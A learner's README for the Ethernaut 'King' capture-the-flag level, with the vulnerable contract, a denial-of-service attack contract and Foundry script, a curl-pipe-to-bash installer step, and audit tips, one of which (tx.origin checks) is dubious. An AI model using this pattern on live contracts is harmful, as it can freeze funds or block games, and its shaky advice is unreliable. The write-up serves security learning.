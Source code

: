 # Ethernaut Level: King - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **King** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/king/`) contains everything related to it.

**Goal:** Become the king and prevent the level from reclaiming kingship upon submission.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 23, 2025 (Day 10).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract implements a "King of the Ether" Ponzi game: Sending more ETH than the current prize makes you king, paying the old king the new prize. The owner (level) can always reclaim with any amount.

**Key Code Snippet (from src/King/King.sol):**
```solidity
contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);  // Vulnerable: Owner bypass
        payable(king).transfer(msg.value);  // Pay old king
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## Vulnerability Analysis
**Main Issue: Reliance on Payable Receive() for Reclaim (Non-Payable King Bypass)**  
- The `receive()` triggers on plain ETH sends, but if the king is a non-payable contract (no receive/fallback), incoming ETH reverts. The owner bypass allows reclaim with small value, but if the king contract reverts on receipt, reclaim fails.  
- **Security Impact:** Ponzi mechanics are fragile; non-standard kings (contracts) DoS the game. In audits, test edge cases like contract kings.  
- **Audit Tip:** Use explicit functions for state changes; validate senders beyond value. Tools like Foundry simulate reverts on receipt.

**Example:** Become king with a non-receiving contract; level's small send reverts, failing reclaim.

## Solution Steps
The attack: Deploy a non-payable "Attack" contract, send exactly the prize ETH to trigger `receive()` and become king. Level's reclaim send to Attack reverts (no receive), preventing proclamation.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/KingSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** `_king()` returns Attack address; submit—reclaim fails, level beaten.

**Key Attack Code Snippet (from src/King/Attack.sol and script/KingSolution.s.sol):**
```solidity
// Attack Contract (src/King/Attack.sol)
contract Attack {
    address public target;

    constructor(King _target) payable {
        address(_target).call{value: _target.prize()}("");  // Trigger receive(), become king
    }
}

// Script (script/KingSolution.s.sol)
contract KingSolution is Script {
    King public kingInstance = King(payable(<your_contract_address_here>));  // REPLACE!

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        console.log("Initial Prize:", kingInstance.prize());

        // Prize with Attack deploy
        uint256 attackValue = kingInstance.prize();  // Ensure > prize
        Attack attacker = new Attack{value: attackValue}(kingInstance);

        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates become king; test reclaim revert.
- **Testnet Output Example:** Console log: "Initial Prize: X wei", king changes to Attack address.

## Key Learnings
- **Auditing Skill:** Test king changes with contract senders—simulate reverts on non-payable receipts.
- **EVM Concept:** Receive() only for plain sends; missing it reverts ETH transfers.
- **Prevention:** Require EOA senders (`tx.origin` or signatures); cap prizes or use pull payments.
- **Next Step:** Add reclaim simulation in test to verify failure.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/king`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/KingSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Re-entrancy. 🚀

---

**License:** MIT  
**Author:** [0xZHD] - Smart Contract Auditor Learner  
**X:** [Zahedul I Sadik](@0xZHD_X)  
**References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)